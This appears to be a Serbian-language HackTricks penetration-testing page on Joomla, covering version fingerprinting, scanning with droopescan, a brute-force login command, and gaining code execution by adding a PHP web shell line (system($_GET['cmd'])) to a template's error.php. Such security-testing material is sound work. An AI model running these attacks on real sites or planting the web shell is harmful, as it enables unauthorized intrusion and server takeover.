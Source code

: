 # Joomla

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### Joomla Statistika

Joomla prikuplja neke anonimne [statistike korišćenja](https://developer.joomla.org/about/stats.html) kao što su raspodela verzija Joomla, PHP-a i baza podataka, kao i operativnih sistema servera koji se koriste na Joomla instalacijama. Ovi podaci se mogu dobiti putem njihovog javnog [API-ja](https://developer.joomla.org/about/stats/api.html).

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```

## Enumeracija

### Otkrivanje/Identifikacija

* Proverite **meta**

```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

* robots.txt

Robots.txt je tekstualni fajl koji se nalazi na korenu veb sajta i koristi se za kontrolu pristupa veb robotima. Ovaj fajl omogućava vlasnicima sajtova da odrede koje delove sajta žele da roboti pretraživača indeksiraju i prikažu u rezultatima pretrage. Robots.txt takođe može sadržati uputstva za robotima o tome koje direktorijume ili fajlove treba izbegavati prilikom indeksiranja. Ovaj fajl je javno dostupan i može biti pregledan od strane bilo kog korisnika.

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```

* README.txt

```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

### Verzija

* U **/administrator/manifests/files/joomla.xml** možete videti verziju.
* U **/language/en-GB/en-GB.xml** možete dobiti verziju Joomla.
* U **plugins/system/cache/cache.xml** možete videti približnu verziju.

### Automatski

```bash
droopescan scan joomla --url http://joomla-site.local/
```

U[ **80,443 - Metodologija testiranja veb sajtova je odeljak o skenerima CMS-a**](./#cms-scanners) koji mogu skenirati Joomla.

### Brute-Force

Možete koristiti ovaj [skript](https://github.com/ajnik/joomla-bruteforce) da pokušate izvršiti Brute-Force napad na prijavljivanje.

```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```

## RCE

Ako ste uspeli da dobijete **admin pristupne podatke**, možete **izvršiti udaljeni kod** tako što ćete dodati deo **PHP koda** kako biste dobili **RCE**. To možemo uraditi **prilagođavanjem** šablona.

1. **Kliknite** na **`Templates`** na donjem levom delu ispod `Configuration` da biste otvorili meni sa šablonima.
2. **Kliknite** na ime **šablona**. Izaberimo **`protostar`** pod zaglavljem `Template`. To će nas odvesti na stranicu **`Templates: Customise`**.
3. Konačno, možete kliknuti na stranicu da biste otvorili **izvorni kod**. Izaberimo stranicu **`error.php`**. Dodajemo **PHP jednolinijski kod za izvršavanje** kao što sledi:
4. **`system($_GET['cmd']);`**
5. **Save & Close**
6. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
